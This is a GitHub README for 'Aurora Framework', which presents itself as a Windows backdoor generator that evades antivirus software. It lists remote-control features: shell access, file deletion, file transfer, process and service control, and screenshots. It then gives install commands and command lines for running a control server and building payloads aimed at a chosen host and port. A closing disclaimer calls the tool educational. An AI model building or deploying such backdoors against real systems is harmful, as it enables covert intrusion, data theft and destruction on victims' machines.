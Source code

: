 # Aurora Framework

[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.6-yellow.svg)](https://www.python.org/) 
[![License](https://img.shields.io/badge/License-BSD-red.svg)](https://github.com/t3l3machus/hoaxshell/blob/main/LICENSE.md)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
⚡This tool is a backdoor generator for Windows systems that uses sockets to establish a connection and is highly capable of bypassing antivirus software.It has a control server and a variety of payloads, and comes with a number of useful features.

## Features
- Root shell `Administrator permission required`
- System information
- Delete files & folder on the host machine. 
- Execute commands on target machine.
- Upload/Download any type of files.
- Get all processes running in a system.
- Kill process by name, id etc...
- Enable/Disable windows services.
- Start/Stop windows service.
- Start/Restart windows system.
- Screenshot
- Download files

## How to install
```
git clone https://github.com/hxrshdeepsingh/Aurora-Framework
```
```
cd Aurora-Framework
```
```
pip install -r requirements.txt
```
```
python aurora.py --help
```  

## Setup Server
```
python aurora.py server --help
```
```
python aurora.py server --host <HOST> --port <PORT>
```

## Build Payload
```
python aurora.py payload --help
```
```
python aurora.py payload --name <NAME> --host <HOST> --port <PORT> --time <RECONNECTION TIME>
```

## Disclaimer
This tool is for educational and testing purposes only. Do not use its payloads on hosts without proper authorization. You are responsible for any consequences resulting from its use.
